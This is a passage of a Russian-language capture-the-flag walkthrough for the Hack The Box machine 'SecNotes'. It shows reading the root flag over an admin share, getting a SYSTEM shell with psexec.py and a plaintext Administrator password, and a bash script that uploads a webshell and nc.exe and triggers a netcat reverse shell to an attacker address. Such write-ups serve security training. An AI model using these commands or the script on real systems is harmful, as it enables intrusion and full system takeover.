 ### root.txt
```text
C:\Users\tyler>type \\127.0.0.1\C$\Users\Administrator\Desktop\root.txt
type \\127.0.0.1\C$\Users\Administrator\Desktop\root.txt
7250cde1????????????????????????
```

Аналогично, это можно провернуть через smbclient с машины атакующего.

## Шелл от админа
Полноценный же шелл можно получить с помощью psexec или winexec:
```text
root@kali:~# psexec.py Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file BhMvtfKj.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service dBdy on 10.10.10.97.....
[*] Starting service dBdy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

```text
C:\WINDOWS\system32>type C:\Users\Administrator\Desktop\root.txt
7250cde1????????????????????????
```

Готово :triumph:

# Эпилог
## secnotes_reverse_tcp.sh
Корневая директория веб-сервера очищается по таймеру, что определенно раздражает.

Чтобы заново не загружать весь необходимый стафф по отдельности, можно воспользоваться таким bash-скриптом:
```bash
#!/usr/bin/env bash

if [ "$#" -ne 2 ]; then
	echo "Usage: $0 [IP] [PORT]"
	exit
fi;

IP=$1
PORT=$2

echo "[*] Uploading evil.php and nc.exe"
smbclient //10.10.10.97/new-site -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put webshell.php evil.php' || (echo "[-] evil.php: Upload failed" && exit 1)
smbclient //10.10.10.97/new-site -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put /usr/share/windows-binaries/nc.exe nc.exe' || (echo "[-] nc.exe: Upload failed" && exit 1)
echo "[+] Sucessfully uploaded evil.php and nc.exe"

echo "[*] Triggering nc shell callback to ${IP}:${PORT}"
curl "http://10.10.10.97:8808/evil.php?cmd=nc.exe+${IP}+${PORT}+-e+c:\windows\system32\cmd.exe"
```
